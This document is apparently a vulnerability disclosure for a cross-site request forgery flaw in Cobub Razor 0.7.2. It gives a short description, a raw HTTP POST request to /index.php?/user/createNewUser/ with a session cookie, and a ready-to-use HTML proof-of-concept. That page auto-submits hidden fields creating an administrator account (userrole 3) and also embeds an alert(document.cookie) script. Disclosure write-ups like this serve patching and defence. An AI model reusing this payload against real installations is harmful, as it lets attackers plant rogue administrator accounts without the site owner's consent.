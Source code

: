 ﻿Vendor Homepage  :  http://www.cobub.com/  
 
Software Link    :  https://github.com/cobub/razor/releases  

Version          :  0.7.2  

##  CVE description  ##
A cross-site request forgery (CSRF) vulnerability exists in Western Bridge Cobub Razor 0.7.2   
via /index.php?/user/createNewUser/, resulting in account creation.

##  Technical details  ##
In /index.php?/user/createNewUser/ POST:username=&email=&password=&confirm_password=&userrole=&user%2FccreateNewUser=.  

Because the Cobub Razor is lack of identity authentication ,When attacker induce authenticated admin user to a malicious web page, the account will be created without admin user's intention.

##  Proof of Concept  ##
1. Login to console page.(/index.php?/auth/login -> /index.php?/)
2. Keep login and access the PoC payload html it has following content  
  
  
request:
POST /index.php?/user/createNewUser/ HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Referer: http://localhost
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; MANMJS; rv:11.0) like Gecko
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Content-Length: 122
Host: localhost:80
Pragma: no-cache
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22c234df4ea2a0b843401dd9465f1c7c49%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A77%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+Trident%2F7.0%3B+MANMJS%3B+rv%3A11.0%29+like+Gecko%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1520384883%3B%7D12178fe8e9554e0e6aa6007fb4476dfc
Connection: close

username=test123&email=test@test123.test&password=test&confirm_password=test&userrole=3&user%2FccreateNewUser=%E5%88%9B%E5%BB%BA

Userrole is 3, which means that the user is admin.

PoC payload:
<html>
  <body>
  <script>alert(document.cookie)</script>
    <form action="http://localhost/index.php?/user/createNewUser/" method="POST">
      <input type="hidden" name="username" value="test123" />
      <input type="hidden" name="email" value="test&#64;test123&#46;test" />
      <input type="hidden" name="password" value="test" />
      <input type="hidden" name="confirm&#95;password" value="test" />
      <input type="hidden" name="userrole" value="3" />
      <input type="hidden" name="user&#47;ccreateNewUser" value="�&#136;&#155;�&#187;�" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
